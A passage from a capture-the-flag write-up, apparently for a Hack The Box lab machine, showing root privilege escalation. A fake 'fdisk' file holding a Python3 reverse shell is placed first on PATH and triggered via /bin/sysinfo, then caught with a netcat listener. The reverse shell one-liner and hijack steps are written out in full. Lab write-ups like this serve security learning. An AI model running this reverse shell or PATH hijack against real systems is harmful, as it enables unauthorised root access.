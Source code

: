 ```bash
theseus@ubuntu:/dev/shm$ echo $PATH
/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin:/usr/games:/usr/local/games:/snap/bin
```

Lets create a fdisk binary in /dev/shm which contains a python3 reverse shell. Lets modify the path as shown below.

```ruby
theseus@ubuntu:/dev/shm$ nano fdisk
theseus@ubuntu:/dev/shm$ cat fdisk
python3 -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.10.14.119",8001));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'
theseus@ubuntu:/dev/shm$ chmod +x fdisk
theseus@ubuntu:/dev/shm$ export PATH=/dev/shm:$PATH
theseus@ubuntu:/dev/shm$ echo $PATH
/dev/shm:/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin:/usr/games:/usr/local/games:/snap/bin
theseus@ubuntu:/dev/shm$ which fdisk
/dev/shm/fdisk
```

Lets open a netcat listener on our system on port 8001 and execute /bin/sysinfo to get a Reverse Shell

```ruby
strawhack@linux:~/Desktop$ sudo nc -nlvp 8001
Listening on 0.0.0.0 8001
Connection received on 10.10.10.185 35984
# /bin/bash -i
root@ubuntu:/dev/shm# cd /root
cd /root
root@ubuntu:/root# ls
ls
info.c
root.txt
root@ubuntu:/root# cat root.txt
cat root.txt
eb8c0d0b143fd1c0----------------
```



## Links 

| Description                | Web URI                                                      |
| -------------------------- | ------------------------------------------------------------ |
| ExifTool To Embed PHP Code | https://medium.com/@noobintheshell/htb-networked-writeup-aa71bff6baa |
| Python3 Reverse Shell      | http://pentestmonkey.net/cheat-sheet/shells/reverse-shell-cheat-sheet |
| Linpeas                    | https://github.com/carlospolop/privilege-escalation-awesome-scripts-suite |

